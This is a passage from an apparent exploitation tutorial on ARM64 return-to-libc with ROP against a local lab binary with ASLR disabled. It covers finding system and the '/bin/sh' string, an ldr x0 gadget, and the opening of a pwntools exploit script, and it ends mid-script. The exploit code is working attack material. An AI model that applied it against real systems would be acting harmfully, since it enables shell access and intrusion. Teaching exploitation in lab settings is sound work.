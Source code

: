 Taking a look to the dissembled main function we can see that we would like to **jump** to the instruction to jump to **`printf`** directly, whose offset from where the binary is loaded is **`0x860`**:

<figure><img src="../../../images/image (1219).png" alt=""><figcaption></figcaption></figure>

### Find system and `/bin/sh` string

As the ASLR is disabled, the addresses are going to be always the same:

<figure><img src="../../../images/image (1222).png" alt=""><figcaption></figcaption></figure>

### Find Gadgets

We need to have in **`x0`** the address to the string **`/bin/sh`** and call **`system`**.

Using rooper an interesting gadget was found:

```
0x000000000006bdf0: ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
```

This gadget will load `x0` from **`$sp + 0x18`** and then load the addresses x29 and x30 form sp and jump to x30. So with this gadget we can **control the first argument and then jump to system**.

### Exploit

```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000
binsh = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
system = libc.sym["system"]

def expl_bof(payload):
    p.recv()
    p.sendline(payload)

# Ret2main
stack_offset = 108
ldr_x0_ret = p64(libc.address + 0x6bdf0) # ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
```